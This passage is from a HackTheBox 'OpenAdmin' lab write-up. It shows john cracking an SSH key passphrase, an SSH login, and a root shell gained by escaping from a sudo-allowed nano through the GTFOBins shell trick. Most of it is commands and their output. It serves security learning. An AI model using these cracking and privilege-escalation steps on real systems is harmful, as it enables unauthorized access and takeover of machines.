Using the custom wordlist and john, hash was cracked almost instantly.

<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/openadmin]
└─$ john --wordlist=ninja-extracted-rockyou.txt id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)     
1g 0:00:00:00 DONE (2023-10-20 07:36) 50.00g/s 73600p/s 73600c/s 73600C/s crzyninja09..blackninjas@81
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<br />

Now I can ssh in as joanna using the cracked password (**bloodninjas**):

<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/openadmin]
└─$ ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct 20 11:37:08 UTC 2023

  System load:  0.0               Processes:             225
  Usage of /:   31.0% of 7.81GB   Users logged in:       1
  Memory usage: 16%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```

# <span style="color:red">joanna -> root</span>


As I always do, I first checked for files with sudo rights, and this privilege escalation looked pretty straight forward:

<br />

```bash
joanna@openadmin:~$ sudo -S -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET",
    env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
<br />

I simplied followed the tutoiral from [GTFOBINS](https://gtfobins.github.io/gtfobins/nano/), and got my root shell. 

<br />

> /bin/nano /opt/priv
> ^R^X
> reset; sh 1>&0 2>&0

<br />




## Sources
- https://github.com/amriunix/ona-rce
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://medium.com/r3d-buck3t/
- remote-code-execution-in-opennetadmin-5d5a53b1e67
- https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/
- https://gtfobins.github.io/gtfobins/nano/

